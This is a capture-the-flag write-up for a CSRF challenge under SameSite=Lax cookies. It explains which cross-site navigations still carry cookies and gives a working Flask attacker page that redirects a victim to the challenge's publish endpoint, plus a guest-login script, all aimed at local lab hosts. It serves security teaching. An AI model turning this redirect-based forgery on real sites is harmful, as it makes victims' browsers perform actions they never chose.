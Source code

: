 This means there should be at least 3 terminal tabs exist in the same time.

# CSRF(Cross Site Request forgery) 1
In this challenge, SameSite property of Cookie is set to be Lax.
Only when the request is same-site or of cross-site top-level GET navigation can Cookies be sent.

### Cross-site examples
Below these are allowed.
```
<a href="..."></a>
<link rel="prerender" href="..."/>
<form method="GET" action="...">
```
But things like `<img>` label or `<iframe>` or other javascript request are not allowed to send Cookies.

### writeup
Keep /challenge/server running, then keep below server on.
```python csrf1_server.py
from flask import Flask

app = Flask(__name__)

@app.route('/')
def index():
    # return '''
    #     <html>
    #         <head>
    #             <meta http-equiv="refresh" content="0; url=http://challenge.localhost/publish" />
    #         </head>
    #     </html>
    # '''
    ### This javascript cause navigating rather than sending request. So this also work out.
    return '''
        <script>
            window.location.href = 'http://challenge.localhost/publish';
        </script>
    '''

app.config['SERVER_NAME'] = f"hacker.localhost:1337"
app.run(host='hacker.localhost', port=1337)
```
And then use `/challenge/victim` to publish the flag. Then every user can see the flag content.
```python guest_login.py
import requests as req

url = 'http://challenge.localhost:80/login'
s = req.Session()

resp = s.post(url, data={'username': 'guest', 'password': 'password'})
print(resp.text)
```
